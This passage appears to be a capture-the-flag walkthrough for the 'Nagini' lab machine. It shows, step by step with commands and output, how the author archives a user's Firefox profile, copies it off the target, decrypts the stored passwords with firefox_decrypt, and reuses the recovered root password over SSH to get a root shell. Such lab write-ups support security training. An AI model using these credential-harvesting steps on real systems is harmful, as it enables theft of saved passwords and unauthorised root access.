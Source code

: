 When I use the `tar` command:
```shell
$ hermoine@Nagini:~$ tar -zcvf mozilla.tar.gz .mozilla/
```
And I copy the `mozilla.tar.gz` directory to my local machine:
```shell
$ scp -i id_rsa_hermoine \
> hermoine@192.168.2.25:/home/hermoine/mozilla.tar.gz .
```
And I extract the directory:
```shell
$ tar xvzf mozilla.tar.gz
```
And I clone the `firefox_decrypt` repository:
```shell
$ git clone https://github.com/unode/firefox_decrypt
```
And I read the documentation, and I run the script with the path to the `firefox` profile directory:
```shell
$ python3 firefox_decrypt.py ../mozilla/firefox
Website: http://nagini.hogwarts
Username: 'root'
Password: '@Alohomora#123'
```
Then I find the `root` credentials, when I use the `ssh` command:
```shell
$ sshpass -p "@Alohomora#123" ssh root@192.168.2.25
```
Then it works, and I get the `root` shell, and I get the root flag `horcrux3.txt`:

![evidence](./static/24-censored-horcrux3.png)
